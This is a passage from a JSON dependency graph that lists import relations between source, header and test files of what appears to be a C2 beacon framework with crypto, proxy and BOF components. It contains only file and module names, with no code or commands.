"mutants/tests/test_unified_config_schema.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "mutants/tests/test_unified_config_schema_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/mutation_test_c.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/mutation_test_c.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/mutation_test_c.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/mutation_test_c.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/mutation_test_c.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/mutation_test_c.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/mutation_test_c.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "scripts/mutation_test_c.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/async_i_o_for_beacon.c", "target": "async_i_o_for_beacon.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/async_i_o_for_beacon.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/beacon_common.c_extraction.c", "target": "beacon_common.c_extraction.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/beacon_common.c_extraction.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/beacon_heartbeat___health_endpoint.c", "target": "beacon_heartbeat___health_endpoint.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/beacon_heartbeat___health_endpoint.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/bof_api_versioning.c", "target": "bof_api_versioning.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/bof_api_versioning.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/bof_path_traversal_hardening.c", "target": "bof_path_traversal_hardening.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/bof_path_traversal_hardening.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/bof_streaming_(large_outputs).c", "target": "bof_streaming_(large_outputs).h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/bof_streaming_(large_outputs).c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/c2_rest_api.c", "target": "c2_rest_api.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/c2_rest_api.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/certificate_pinning___tofu.c", "target": "certificate_pinning___tofu.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/certificate_pinning___tofu.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/command_execution_via_execve.c", "target": "command_execution_via_execve.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/command_execution_via_execve.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/containerized_build_+_sbom.c", "target": "containerized_build_+_sbom.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/containerized_build_+_sbom.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/hkdf_key_derivation.c", "target": "hkdf_key_derivation.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/hkdf_key_derivation.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/iv_generation_with_entropy_verification.c", "target": "iv_generation_with_entropy_verification.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/iv_generation_with_entropy_verification.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/mutation_testing_integration.c", "target": "mutation_testing_integration.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/mutation_testing_integration.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/pre-commit_+_ci_hardening.c", "target": "pre-commit_+_ci_hardening.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/pre-commit_+_ci_hardening.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/replay_protection.c", "target": "replay_protection.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/replay_protection.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/socks5___http_proxy_support.c", "target": "socks5___http_proxy_support.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/socks5___http_proxy_support.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/structured_jsonl_logging.c", "target": "structured_jsonl_logging.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/structured_jsonl_logging.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/tls_client_certificate_authentication.c", "target": "tls_client_certificate_authentication.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/tls_client_certificate_authentication.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/unified_config_schema.c", "target": "unified_config_schema.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "src/unified_config_schema.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/config_harness.c", "target": "config.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/config_harness.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/config_harness.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/config_harness.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/crypto_harness.c", "target": "aes_cfb.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/crypto_harness.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/crypto_harness.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/crypto_harness.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_beacon_build.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_beacon_build.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_beacon_build.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_beacon_build.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_compile.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_compile.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_compile.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_compile.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_bof_path_traversal.py", "target": "unicodedata"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "include.config_py"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_beacon_bof_integration.py", "target": "include.config_py"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "c2"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_http_e2e.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_server.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_server.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_server.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_server.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_server.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_server.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_c2_server.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "config_py"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "socket"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "cryptography"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "cryptography.x509.oid"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "cryptography.hazmat.primitives.asymmetric"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "datetime"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "http.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "threading"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_certificate_pinning_c.c", "target": "config.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_config.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_config.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_config.py", "target": "shutil"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_config.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_config.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_config.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_config.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_crypto.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_execve_command.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_execve_command.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_execve_command.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_execve_command.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_execve_command.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_execve_command.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "config_py"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.primitives.kdf.hkdf"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_hkdf_key_derivation_c.c", "target": "config.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_install_deploy.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_install_deploy.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_install_deploy.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_install_deploy.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_install_deploy.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_install_deploy.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "config_py"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "stdarg.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "stddef.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "setjmp.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "cmocka.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "stdbool.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "string.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "stdlib.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "stdio.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "unistd.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_iv_generation_c.c", "target": "beacon_common.h"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "config_py"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_replay_protection.py", "target": "c2.server"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_runtime_random.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 